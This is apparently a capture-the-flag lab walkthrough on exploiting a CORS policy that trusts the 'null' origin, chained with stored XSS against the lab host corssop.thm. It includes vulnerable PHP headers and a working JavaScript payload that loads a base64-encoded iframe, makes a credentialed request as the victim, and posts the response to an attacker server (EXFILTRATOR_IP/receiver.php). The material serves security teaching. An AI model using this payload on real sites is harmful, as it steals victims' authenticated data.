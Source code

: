 # Why Null Origin?

Allowing requests from the "null" origin in a web application's CORS policy might seem counterintuitive, but there are specific scenarios where this might occur, either intentionally or due to misconfiguration. For example:

- **Local Files and Development**: When developers test web applications locally using `file:///` URLs (e.g., opening an HTML file directly in a browser without a server), the browser typically sets the origin to "null". In such cases, developers might temporarily allow the "null" origin in CORS policies to facilitate testing.
- **Sandboxed Iframes**: Web applications using sandboxed iframes (with the `sandbox` attribute) might encounter "null" origins if the iframe's content comes from a different domain. The "null" origin is a security measure in highly restricted environments.
- **Specific Use Cases**: Some applications might have particular use cases that need to support interactions from non-web-browser environments or unconventional clients that don't send a standard origin. Allowing the "null" origin might be a workaround, although it's generally not recommended due to security concerns.

## Exploiting Null Origin

Compared to the previous techniques, exploiting a null origin vulnerability typically involves taking advantage of scenarios where an application incorrectly trusts the "null" origin of the request. This can happen when an application's CORS policy is misconfigured to accept requests from the "null" origin. For example, below is the vulnerable code of `http://corssop.thm/null.php`:

```php
<?php
header('Access-Control-Allow-Origin: null');
header('Access-Control-Allow-Credentials: true');
?>
```

The "null" origin usually occurs when an HTML page is loaded locally using the `file:///` protocol or inside an iframe.

### Null Origin in the Response

To exploit the vulnerable code above, an attacker can create a malicious webpage with an iframe containing a JavaScript code that makes cross-origin requests to the target application.

## XSS + CORS

We can use the vulnerable application at `http://corssop.thm/xss.php` to chain XSS with CORS. The application is designed to accept JavaScript or HTML code and then save it to the database. This means you can inject JavaScript or HTML code into the application, and once the victim visits the application, the payload will be executed.

### Sample XSS Payload with a Basic Alert Box

Below is a sample exploit code designed to exfiltrate the data from `null.php` while using the victim's session. Make sure to change the `EXFILTRATOR_IP` variable with your IP address.

```html
<div style="margin: 10px 20px 20px; word-wrap: break-word; text-align: center;">
    <iframe id="exploitFrame" style="display:none;"></iframe>
    <textarea id="load" style="width: 1183px; height: 305px;"></textarea>
</div>

<script>
    // JavaScript code for the exploit, adapted for inclusion in a data URL
    var exploitCode = `
      <script>
        function exploit() {
          var xhttp = new XMLHttpRequest();
          xhttp.open("GET", "http://corssop.thm/null.php", true);
          xhttp.withCredentials = true;
          xhttp.onreadystatechange = function() {
            if (this.readyState == 4 && this.status == 200) {
              // Assuming you want to exfiltrate data to a controlled server
              var exfiltrate = function(data) {
                var xhr = new XMLHttpRequest();
                xhr.open("POST", "http://EXFILTRATOR_IP/receiver.php", true);
                xhr.withCredentials = true;
                var body = data;
                var aBody = new Uint8Array(body.length);
                for (var i = 0; i < aBody.length; i++)
                  aBody[i] = body.charCodeAt(i);
                xhr.send(new Blob([aBody]));
              };
              exfiltrate(this.responseText);
            }
          };
          xhttp.send();
        }
        exploit();
      <\/script>
    `;

    // Encode the exploit code for use in a data URL
    var encodedExploit = btoa(exploitCode);

    // Set the iframe's src to the data URL containing the exploit
    document.getElementById('exploitFrame').src = 'data:text/html;base64,' + encodedExploit;
</script>
```

The XSS payload is executed when the victim interacts with the exploit (e.g., by visiting a link or viewing a maliciously crafted page).

### XSS Payload Execution

Open Developer tools > Network. There should be two XHR connections. The first request is sent to the target website (`null.php`), while the second is sent to the exfiltrating server.

Since the server's CORS policy is misconfigured to trust the "null" origin, it will respond to the request and include the `Access-Control-Allow-Origin: null` header.

As you can see from the image below:

- The domain name is `corssop.thm`.
- The origin is `null` since the request originates from the iframe.

The victim automatically visits the vulnerable application (`xss.php`) every minute, so once the updated exploit is saved, you should receive a POST request containing the flag from the victim.

Open `data.txt` located in `/var/www/html` to view the exfiltrated data from the victim.